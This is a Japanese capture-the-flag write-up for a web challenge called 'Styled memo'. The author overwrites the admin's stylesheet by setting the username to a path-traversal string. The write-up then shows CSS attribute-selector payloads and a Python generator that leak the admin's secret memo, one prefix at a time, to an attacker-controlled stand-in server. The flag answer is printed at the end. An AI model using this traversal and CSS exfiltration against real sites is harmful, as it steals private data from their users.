

# Styled memo:Web:350pts
CSSをアップロードすることで見た目を調整可能なメモアプリです！  
[https://styled-memo.web.wanictf.org/](https://styled-memo.web.wanictf.org/)  
[web-styled-memo.zip](web-styled-memo.zip)  

# Solution
メモアプリらしい。  
アクセスし、登録後ログインするとメモを投稿できる。  
メモアプリ  
[site1.png](site/site1.png)  
さらに`ユーザ情報修正`ページもあり、ユーザ名とメモアプリのCSSを変更できる。  
デフォルトのCSSは`https://styled-memo.web.wanictf.org/media/css/root/example.css`のようだ。  
[site2.png](site/site2.png)  
`adminGq8vcIHrにadminGq8vcIHrのメモを確認してもらう`とあることからも予想できるが、adminGq8vcIHrは本人のメモを確認するだけらしい。  
CSSインジェクションであろうことはわかるが、まずはCSSをadminGq8vcIHrに踏ませる必要がある。  
ファイルが多く読むのが面倒だったのでブラックボックスでいろいろ試す。  
修正ページのユーザ名を`Wani`にして`Hack.css`を投稿してみると、トップのソースが以下のようになった。  
```html
~~~
<link href="/media/css/Wani/Hack.css" rel="stylesheet">

<style type="text/css">
  .modal-body {
    white-space: pre-wrap
  }
</style>
~~~
```
`/media/css/ユーザ名/ファイル名`になるようだ(XSSを狙うが特殊文字はエンコードされる)。  
ではユーザ名を`adminGq8vcIHr`にすることでCSSを踏ませられると考えるが、ブロックされる。  
[site3.png](site/site3.png)  
ユーザ名を衝突させなければよいので`../css/adminGq8vcIHr`とすればよいことに気づく。  
これでadminGq8vcIHrのCSSをいじれるようになった。  
flagの場所がわからないとキツイのでソースを眺めると`django/app/master/views.py`で以下のようであった。  
```JavaScript
~~~
        Memo.objects.create(user=admin, title="FLAG", content=os.environ.get("FLAG"))
~~~
```
CSSのファイル名は変更している様子が見られないので、example.cssだろう。  
あとはCSSインジェクションによりadminGq8vcIHrのメモの中身を流出させればよい。  
自身のメモにて確認すると以下のように属性値にメモの中身が入っている。  
```html
~~~
<button type="button" class="btn btn-primary btn-memo-detail" data-toggle="modal" data-target="#memoContentModal" data-title="___φ(｡_｡*)ﾒﾓﾒﾓ" data-content=".....φ(｡_｡*)ﾒﾓﾒﾓ" data-editurl="/memo/470">詳細</button>
~~~
```
Attribute selectorで行う初歩CSSiのようだ。  
サーバーを立て、次のようなCSSを`/media/css/adminGq8vcIHr/example.css`にアップロードして確認してもらうボタンを押せばよい。  
```css
button[data-content^='FLAG{a'] {background-image: url('https://myserver.example.com/?FLAG{a');}
button[data-content^='FLAG{b'] {background-image: url('https://myserver.example.com/?FLAG{b');}
button[data-content^='FLAG{c'] {background-image: url('https://myserver.example.com/?FLAG{c');}
button[data-content^='FLAG{d'] {background-image: url('https://myserver.example.com/?FLAG{d');}
button[data-content^='FLAG{e'] {background-image: url('https://myserver.example.com/?FLAG{e');}
button[data-content^='FLAG{f'] {background-image: url('https://myserver.example.com/?FLAG{f');}
button[data-content^='FLAG{g'] {background-image: url('https://myserver.example.com/?FLAG{g');}
button[data-content^='FLAG{h'] {background-image: url('https://myserver.example.com/?FLAG{h');}
button[data-content^='FLAG{i'] {background-image: url('https://myserver.example.com/?FLAG{i');}
button[data-content^='FLAG{j'] {background-image: url('https://myserver.example.com/?FLAG{j');}
~~~
```
自身のサーバのアクセスから、一文字ずつflagをリークできる。  
二文字ずつリークするexample.cssを作るコードは以下になる。  
```python:css_gen.py
import string

url = "https://myserver.example.com"
c_flag = "FLAG{"

with open("example.css", mode="w") as f:
    for i in  string.ascii_letters + string.digits + "_-.$@!?":
        for j in  string.ascii_letters + string.digits + "_-.$@!?":
            f.write(f"button[data-content^='{c_flag}{i}{j}'] {{background-image: url('{url}/?{c_flag}{i}{j}');}}\n")
```
  
flagが取得できた。  

## FLAG{CSS_Injecti0n_us1ng_d1r3ctory_tr@versal}